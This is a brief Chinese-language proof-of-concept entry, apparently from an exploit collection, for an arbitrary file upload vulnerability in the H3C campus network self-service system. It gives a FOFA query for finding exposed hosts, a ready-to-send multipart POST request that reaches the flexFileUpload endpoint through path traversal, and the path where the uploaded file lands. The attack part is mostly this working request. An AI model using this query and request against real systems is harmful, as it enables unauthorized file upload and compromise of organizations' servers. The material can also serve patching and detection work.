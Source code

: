 ## H3C-校园网自助服务系统flexfileupload任意文件上传漏洞

## FOFA
```
header="/selfservice"
```
![67ea2585dc0afbeca07f36ba1a2d759b](../../images/458a6319-8307-47a8-a3e9-8aed98b5fd9e.png)

## poc
```
POST /imc/primepush/%2e%2e/flexFileUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=---------------WebKitFormBoundaryMmx988TUuintqO4Q
Accept-Encoding: gzip
Content-Length: 243

-----------------WebKitFormBoundaryMmx988TUuintqO4Q
Content-Disposition: form-data; name="123.txt"; filename="123.txt"
Content-Type: application/octet-stream
Content-Length: 255

1111
-----------------WebKitFormBoundaryMmx988TUuintqO4Q--
```

文件路径：`/imc/primepush/%2e%2e/flex/topobg/123.tx`
